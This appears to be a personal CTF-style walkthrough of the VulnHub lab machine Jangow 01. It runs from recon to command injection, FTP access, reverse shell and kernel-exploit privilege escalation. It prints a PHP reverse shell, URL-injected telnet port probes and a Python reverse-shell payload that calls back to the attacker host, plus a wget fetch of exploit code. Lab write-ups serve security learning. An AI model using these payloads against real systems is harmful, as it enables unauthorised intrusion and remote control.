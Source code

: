 ```yaml
---
title: "Jangow 01 -VulnHub"
date: 2025-04-22 14:00:00 +0200
categories: VulnHub
tags: [Kernel-exploits, privilege-escalation, rooted , command-injection, jangow01]
toc: true
comments: true
image: ./assets/img/attachments/jangow.png
imageNameKey: jangow
---
```

Yo! Back again with another VulnHub walkthrough — this time we’re diving into _Jangow: 01_. Let’s get rootin’! 💥
This is my second writeup 2/1000
## Recon

![w](/assets/img/attachments/jangow-1.png)

First step was making sure that the machine is reachable, lets START.
Now, As always we'll run an Nmap scan on all ports to see which services are exposed — this will help us decide where to dig deeper.

`sudo masscan -p1-65535 192.168.56.118`

![w](/assets/img/attachments/jangow-2.png)

Then we will use nmap to do full scan on those two open ports

`nmap 192.168.56.118 -Pn -sV -sC -p80,21`
![w](/assets/img/attachments/jangow-3.png)
![w](/assets/img/attachments/jangow-4.png)
![w](/assets/img/attachments/jangow-5.png)

This how the website looked like, after taking a deep look on the functionality of this website and when i clicked on buscar i found this 
## Exploiting vulnerability

![w](/assets/img/attachments/jangow-6.png)
![w](/assets/img/attachments/jangow-7.png)

Command Injection!

![w](/assets/img/attachments/jangow-8.png)

After some investigation and enumeration, I discovered a file that initially appeared to contain the user's password. However, it didn’t work for login, so I assumed it might just be the user flag instead.
I then attempted to gain a reverse shell by setting up a listener on my machine, but none of the payloads I tried were successful. 
So, I decided to go back to discover more files on the machine. I ran web content discovery from the beginning using

`ffuf -u http://192.168.56.118/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -recursion-depth 2
`
![w](/assets/img/attachments/jangow-9.png)

I couldn't access the content of the file directly, but since there is a command injection vulnerability, I plan to open the file from there.
Got nothing from the browser (I think the file is being rendered)

![w](/assets/img/attachments/jangow-10.png)
![w](/assets/img/attachments/jangow-11.png)

But curl got it, now i will try to gain access with password using ftp (the second open port)
## Initial Access

![w](/assets/img/attachments/jangow-12.png)
I tried both usernames and i logged in with jangow01 !
Since I have access to FTP, I will try to get a shell to proceed to the next step. To do this, I attempted to see if I can upload files to the directory I'm currently in.

![w](/assets/img/attachments/jangow-13.png)

I couldn't, so i thought of changing the directory I'm currently in to /home/jangow01

![w](/assets/img/attachments/jangow-14.png)

And it was uploaded successfully!

```php
<?php
$sock=fsockopen("192.168.246.128",4444);
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```
I tried to upload this shell and trigger it buy running curl command

`curl "http://192.168.56.118/site/busque.php?buscar=php+/home/jangow01/shell.php"`

But it didn't work. I troubleshot the file I uploaded before.
![w](/assets/img/attachments/jangow-15.png)

And couldn't view its content

![w](/assets/img/attachments/jangow-16.png)

Maybe that’s why PHP couldn’t open the file. To solve this, I granted it read and execute permissions.

`chmod 755 /home/jangow01/shell.php`

![w](/assets/img/attachments/jangow-17.png)

Even though, I didn't got the shell, I tried several methods but couldn't get it. 
I tested if i opened http server on my machine would the target machine send any requests to me

`http://192.168.56.118/site/busque.php?buscar=wget+http:/192.168.246.128:8000/hello.txt`

I didn't receive any connection, so I believe there's a firewall blocking outgoing connections — which is likely why I wasn't able to get a reverse shell. Now, I need to identify which ports are not blocked. I used the following script to test that:
```python
# listener.py

import socket

import threading

  

ports = [21, 22, 23, 25, 53, 80, 110, 139, 143, 161, 443, 587, 993, 995, 3306, 3389]

  

def handle_conn(port):

    sock = socket.socket()

    sock.bind(("0.0.0.0", port))

    sock.listen(1)

    print(f"[+] Listening on port {port}")

    conn, addr = sock.accept()

    print(f"[!] Connection received on port {port} from {addr}")

    conn.close()

    sock.close()

  

for port in ports:

    threading.Thread(target=handle_conn, args=(port,), daemon=True).start()

  

input("Press Enter to exit...\n")
```

The script uses threading to start listeners on the most commonly guessed outbound ports. On the vulnerable parameter, we initiate these connections using `telnet` with the following payload:

`http://192.168.56.118/site/busque.php?buscar=echo%20%27QUIT%27%20|%20for%20i%20in%20$(seq%201%201024);%20do%20echo%20%22Porta%20$i%20==%3E%22;%20timeout%20--signal=9%202%20telnet%20192.168.56.1%20$i;echo%20%22Port%20$i%20%3C==%22;%20done;`

decoded:
`http://192.168.56.118/site/busque.php?buscar=echo 'QUIT' | for i in $(seq 1 1024); do echo "Porta $i ==>"; timeout --signal=9 2 telnet 192.168.56.1 $i; echo "Port $i <=="; done;`

and then we got this!

![w](/assets/img/attachments/jangow-18.png)

Which tell us that port 443 isn't blocked for outgoing traffic by the firewall, by running 
`which python3`
![w](/assets/img/attachments/jangow-19.png)

I confirmed python3 is installed, next i used this reverse shell command

`http://192.168.56.118/site/busque.php?buscar=/usr/bin/python3%20-c%20%27import%20socket;%20import%20subprocess;%20import%20os;%20s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);%20s.connect((%22192.168.56.1%22,443));%20os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);%20subprocess.call([%22/bin/bash%22,%20%22-i%22])%27`

![w](/assets/img/attachments/jangow-20.png)

And voilà! We got a connection. 🎉
## Privilege Escalation
we’ll start gathering information about the system itself, beginning with displaying detailed system information. But while doing this manually i will run linpeas at the background

`uname -a `

![w](/assets/img/attachments/jangow-21.png)

![w](/assets/img/attachments/jangow-22.png)

Upon researching the version, a known vulnerability was identified that could potentially be exploited.

![w](/assets/img/attachments/jangow-23.png)

linpeas output too

![w](/assets/img/attachments/jangow-24.png)

Now i will upload the exploit to the machine using the same python server.

`http://192.168.56.118/site/busque.php?buscar=wget+http://ip:443/47170.c`

![w](/assets/img/attachments/jangow-25.png)

After making sure that gcc is installed, will compile the exploit

`gcc 47170.c -o exploit`

![w](/assets/img/attachments/jangow-26.png)

I moved to /tmp since i didn't have the write permission on /site directory

![w](/assets/img/attachments/jangow-27.png)

It's Ok 😢, we will try another exploit

![w](/assets/img/attachments/jangow-28.png)

Will go with this one, 

![w](/assets/img/attachments/jangow-29.png)

![w](/assets/img/attachments/jangow-30.png)

And Finallyyy!! rooted!

![w](/assets/img/attachments/jangow-31.png)

Rooted it. Another one bites the dust. 🏴‍☠️ see u soon!
